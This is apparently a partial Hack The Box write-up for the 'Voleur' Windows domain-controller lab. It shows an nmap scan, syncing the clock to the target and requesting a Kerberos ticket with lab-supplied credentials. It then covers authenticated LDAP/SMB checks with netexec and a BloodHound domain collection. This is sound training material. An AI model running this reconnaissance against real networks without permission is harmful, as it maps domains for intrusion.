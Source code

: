 # First we do the nmap routine
What we see is: 

Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-11 16:04 -03
Nmap scan report for voleur.htb (10.10.11.76)
Host is up (0.21s latency).
Not shown: 65516 filtered tcp ports (no-response)

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus

88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-12 03:12:58Z)

135/tcp   open  msrpc         Microsoft Windows RPC

139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn

389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)

445/tcp   open  microsoft-ds?

464/tcp   open  kpasswd5?

593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0

636/tcp   open  tcpwrapped

2222/tcp  open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 42:40:39:30:d6:fc:44:95:37:e1:9b:88:0b:a2:d7:71 (RSA)
|   256 ae:d9:c2:b8:7d:65:6f:58:c8:f4:ae:4f:e4:e8:cd:94 (ECDSA)
|_  256 53:ad:6b:6c:ca:ae:1b:40:44:71:52:95:29:b1:bb:c1 (ED25519)

3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: voleur.htb0., Site: Default-First-Site-Name)

3269/tcp  open  tcpwrapped

9389/tcp  open  mc-nmf        .NET Message Framing

49668/tcp open  msrpc         Microsoft Windows RPC

63831/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0

63832/tcp open  msrpc         Microsoft Windows RPC

63843/tcp open  msrpc         Microsoft Windows RPC

63851/tcp open  msrpc         Microsoft Windows RPC

63865/tcp open  msrpc         Microsoft Windows RPC

Service Info: Host: DC; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2025-10-12T03:13:58
|_  start_date: N/A
|_clock-skew: 7h59m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 589.54 seconds

# Se procede con actualizacion de reloj y pedido de ticket de kerberos despues de exporta a carpeta de ctf
pasamos a hace ldap y smb y recolectamos con bloodhound
(pc㉿kali)-[~]
└─$ impacket-getTGT voleur.htb/'ryan.naylor':'HollowOct31Nyt'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
                                                                                                                                                                     
┌──(pc㉿kali)-[~]
└─$ sudo systemctl status systemd-timesyncd
● systemd-timesyncd.service - Network Time Synchronization
     Loaded: loaded (/usr/lib/systemd/system/systemd-timesyncd.service; enabled; preset: enabled)
     Active: active (running) since Mon 2025-10-13 13:35:52 -03; 2h 13min ago
 Invocation: 4f9b8903ad3f48cd91233e217be4fb62
       Docs: man:systemd-timesyncd.service(8)
   Main PID: 607 (systemd-timesyn)
     Status: "Contacted time server [2606:4700:f1::123]:123 (2.debian.pool.ntp.org)."
      Tasks: 2 (limit: 76488)
     Memory: 3M (peak: 4.2M)
        CPU: 48ms
     CGroup: /system.slice/systemd-timesyncd.service
             └─607 /usr/lib/systemd/systemd-timesyncd

Oct 13 13:35:52 kali systemd[1]: Starting systemd-timesyncd.service - Network Time Synchronization...
Oct 13 13:35:52 kali systemd[1]: Started systemd-timesyncd.service - Network Time Synchronization.
Oct 13 13:35:53 kali systemd-timesyncd[607]: Network configuration changed, trying to establish connection.
Oct 13 13:35:53 kali systemd-timesyncd[607]: Network configuration changed, trying to establish connection.
Oct 13 13:35:53 kali systemd-timesyncd[607]: Network configuration changed, trying to establish connection.
Oct 13 13:35:53 kali systemd-timesyncd[607]: Network configuration changed, trying to establish connection.
Oct 13 13:36:24 kali systemd-timesyncd[607]: Contacted time server [2606:4700:f1::123]:123 (2.debian.pool.ntp.org).
Oct 13 13:36:24 kali systemd-timesyncd[607]: Initial clock synchronization to Mon 2025-10-13 13:36:24.789417 -03.
                                                                                                                                                                     
┌──(pc㉿kali)-[~]
└─$ sudo systemctl stop systemd-timesyncd
                                                                                                                                                                     
┌──(pc㉿kali)-[~]
└─$ sudo systemctl disable systemd-timesyncd
Removed '/etc/systemd/system/dbus-org.freedesktop.timesync1.service'.
Removed '/etc/systemd/system/sysinit.target.wants/systemd-timesyncd.service'.
                                                                                                                                                                     
┌──(pc㉿kali)-[~]
└─$ sudo ntpdate voleur.htb
2025-10-13 23:49:55.342674 (-0300) +28800.570572 +/- 0.108528 voleur.htb 10.10.11.76 s1 no-leap
CLOCK: time stepped by 28800.570572
                                                                                                                                                                     
┌──(pc㉿kali)-[~]
└─$ impacket-getTGT voleur.htb/'ryan.naylor':'HollowOct31Nyt'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in ryan.naylor.ccache
                                                                                                                                                                     
┌──(pc㉿kali)-[~]
└─$ export KRB5CCNAME=/home/pc/Desktop/HTB-writeups/WriteUps.HackTheBox-CTF/Voleur(Windows)/
                                                                                                                                                                     
┌──(pc㉿kali)-[~]
└─$ cd Desktop
                                                                                                                                                                     
┌──(pc㉿kali)-[~/Desktop]
└─$ cd HTB-writeups
                                                                                                                                                                     
┌──(pc㉿kali)-[~/Desktop/HTB-writeups]
└─$ cd WriteUps.HackTheBox-CTF
                                                                                                                                                                     
┌──(pc㉿kali)-[~/Desktop/HTB-writeups/WriteUps.HackTheBox-CTF]
└─$ cd Voleur\(Windows\)      
                                                                                                                                                                     
┌──(pc㉿kali)-[~/Desktop/HTB-writeups/WriteUps.HackTheBox-CTF/Voleur(Windows)]
└─$ nxc ldap voleur.htb -u ryan.naylor -p HollowOct31Nyt -k
LDAP        voleur.htb      389    DC               [*] None (name:DC) (domain:voleur.htb)
LDAP        voleur.htb      389    DC               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
                                                                                                                                                                     
┌──(pc㉿kali)-[~/Desktop/HTB-writeups/WriteUps.HackTheBox-CTF/Voleur(Windows)]
└─$ nxc smb dc.voleur.htb -u ryan.naylor -p HollowOct31Nyt -k
SMB         dc.voleur.htb   445    dc               [*]  x64 (name:dc) (domain:voleur.htb) (signing:True) (SMBv1:False) (NTLM:False)
SMB         dc.voleur.htb   445    dc               [+] voleur.htb\ryan.naylor:HollowOct31Nyt 
                                                                                                                                                                     
┌──(pc㉿kali)-[~/Desktop/HTB-writeups/WriteUps.HackTheBox-CTF/Voleur(Windows)]
└─$ bloodhound-python -u ryan.naylor -p HollowOct31Nyt -k -ns 10.10.11.76 -c All -d voleur.htb --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: voleur.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.voleur.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.voleur.htb
INFO: Found 12 users
INFO: Found 56 groups
INFO: Found 2 gpos
INFO: Found 5 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.voleur.htb

<image-card alt="Texto alternativo" src="FirstVoleur.drawio.png" ></image-card>



